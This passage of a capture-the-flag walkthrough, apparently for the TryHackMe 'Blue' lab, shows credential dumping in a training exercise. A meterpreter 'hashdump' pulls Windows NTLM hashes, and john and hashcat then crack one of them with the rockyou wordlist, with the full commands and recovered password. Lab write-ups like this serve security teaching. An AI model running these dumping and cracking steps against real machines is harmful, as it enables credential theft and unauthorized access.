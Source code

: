 
### Task 4 Cracking

#### #7 Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 

```
meterpreter > hashdump 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
meterpreter > 
```
ANS: `Jon`

#### #8 Copy this password hash to a file and research how to crack it. What is the cracked password?
Hint: `This password can be found within the rockyou.txt wordlist`
{: .notice--info}

save this to hash-crack.txt
```
Administrator:31d6cfe0d16ae931b73c59d7e0c089c0
Guest:31d6cfe0d16ae931b73c59d7e0c089c0
Jon:ffb43f0de35be4d9917ac0cc8ad57f8d
```
and run `john` 
```
╭─twseptian@twsterlab ~/lab/THM/rooms/blue 
╰─$ sudo john --format=nt -w=/usr/share/wordlists/rockyou.txt hash-crack.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Remaining 1 password hash
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
alqfna22         (Jon)
1g 0:00:00:00 DONE (2020-06-14 15:10) 1.408g/s 14366Kp/s 14366Kc/s 14366KC/s alr19882006..alpusidi
Warning: passwords printed above might not be all those cracked
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
```
or `hashcat`
```
root@twsterlab:/twseptian/TryHackMe/rooms/blue# cat hash-for-crack.txt 
31d6cfe0d16ae931b73c59d7e0c089c0
31d6cfe0d16ae931b73c59d7e0c089c0
ffb43f0de35be4d9917ac0cc8ad57f8d
root@twsterlab:/twseptian/TryHackMe/rooms/blue# hashcat -m 1000 -a 0 -o winpass.txt --force hash-for-crack.txt /usr/share/wordlists/rockyou.txt
root@twsterlab:/twseptian/TryHackMe/rooms/blue# cat winpass.txt                                                                                             
31d6cfe0d16ae931b73c59d7e0c089c0:
ffb43f0de35be4d9917ac0cc8ad57f8d:alqfna22
```
